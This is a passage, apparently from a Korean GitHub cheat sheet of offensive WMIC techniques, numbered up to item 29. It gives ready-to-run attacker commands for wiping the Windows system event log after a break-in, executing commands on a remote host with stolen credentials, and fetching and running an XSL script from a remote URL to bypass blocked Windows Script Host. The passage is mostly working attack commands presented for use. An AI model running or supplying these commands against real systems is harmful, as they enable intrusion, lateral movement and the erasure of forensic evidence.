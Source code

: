 **log 이름을 언급한 다음 nteventlog 옵션을 사용하여 로그 파일을 지우는 아주 간단한 시스템 해킹후 주로 사용하는 명령어임.**<br>

`wmic nteventlog where filename='system' cleareventlog`<br>
<br>

28.  공격자는 원격호스트에 임의의 명령을 실행함.<br>

`wmic /node:[IP address] /user:"[user name]" /password:"[password]" process call create "cmd /c c:\Windows\System32\net.exe user"`<br>
<br>

29. 로컬 또는 원격에서 XSL 스크립트 호출<br>

**Windows Script Host 가 비활성화되거나 차단된 환경에서 유용함.**<br>

로컬 위치 : `wmic process list /FORMAT:koromoon.xsl`<br>

원격 위치 : `wmic os get /FORMAT:"https://example.com/koromoon.xsl"`<br>

<br>


[koromoonlink]: https://koromoon.blogspot.com/2018/11/wmic.html "Go koromoon"